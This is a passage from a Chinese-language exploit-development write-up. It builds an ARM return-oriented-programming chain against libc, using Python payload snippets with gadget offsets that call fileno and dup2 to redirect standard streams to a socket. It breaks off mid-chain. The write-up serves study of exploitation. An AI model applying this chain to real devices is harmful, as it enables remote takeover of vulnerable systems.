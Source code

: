 查看 fileno  
 函数反汇编后的序言。  
  
结合前面讨论的不同跳转指令的知识，这也完全说得通。函数使用 bl  
 指令进行调用，该指令会将LR设置为跳转后紧随的指令地址。这确保了函数退出时，我们能够返回到正确的位置。  
  
然而，对于我构建ROP链的目标来说，这听起来不是个好消息，因为我无法真正控制LR寄存器。我继续寻找能够在跳转到函数之前设置LR的gadgets。尽管这个解决方案对你来说可能很明显，但我花了一晚上才终于意识到，我们可以直接跳过函数序言。这样我就完全不用担心LR中的值了。所以我只需给每个函数符号加上 +0x4  
。问题解决了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPCLBuONer638aicp02qJI5pP0kGdUf3AJTN8qrniagPldvepHxQFnf7HouG4UUG49AdqicDbhGvPq7A1TFELdAog/640?wx_fmt=png&from=appmsg "")  
  
  
唯一的要求是在栈上添加一些填充，以适应函数尾声的操作。对于 fileno  
 函数来说，这意味着总共需要5 x 8字节。事实证明，这非常有用，因为这让我可以将这些寄存器设置为任意值。  
  
我继续将各个部分组合起来。按照计划，我首先调用 fileno  
 函数。  
```
p = b""
p += p32(libc_base + 0xf964)  # mov r0, r3; pop {r4, pc}
p += b"XXXX"  # r4 padding
p += p32(libc_base + 0x3102c + 0x4)  # fileno

```  
  
第一个gadget将套接字引用 socket_stream  
 移动到R0中，以确保它作为参数传递给 fileno  
 函数。调用之后，添加一些填充以正确处理函数尾声。ldmia  
 结构可以看作与前面看到的 pop  
 类似。寄存器R5稍后会用到，所以我提前将 dup2  
 函数的地址存储在那里。  
```
# fileno epilogue: ldmia sp!,{r4,r5,r6,r7,r8,pc}
p += b"XXXX"  # r4 padding
p += p32(libc_base + 0xce5c + 0x4)  # r5 -> dup2
p += b"XXXX"  # r6 padding
p += b"XXXX"  # r7 padding
p += b"XXXX"  # r8 padding

```  
  
接下来是调用 dup2  
 函数。为了实现目标，这个函数需要针对标准输入、标准输出和标准错误各调用一次。对于这三次调用，R0始终应该设置为通过 fileno  
 函数获取的文件描述符，而R1则从0开始，然后是1，最后是2。第一次调用时R1已经被设置为0，所以这次调用无需额外操作。  
```
p += p32(libc_base + 0xce5c + 0x4)  # dup2, r1 = 0
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX"  # r7 padding

```  
  
对于第二次调用，我找到了一个gadget，它在跳转到我已经存储 dup2  
 函数地址的R5之前，会将1移动到R1中。  
```
p += p32(libc_base + 0x1cdcc)  # mov r1, #1; mov r2, r6; blx r5
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX"  # r7

```  
  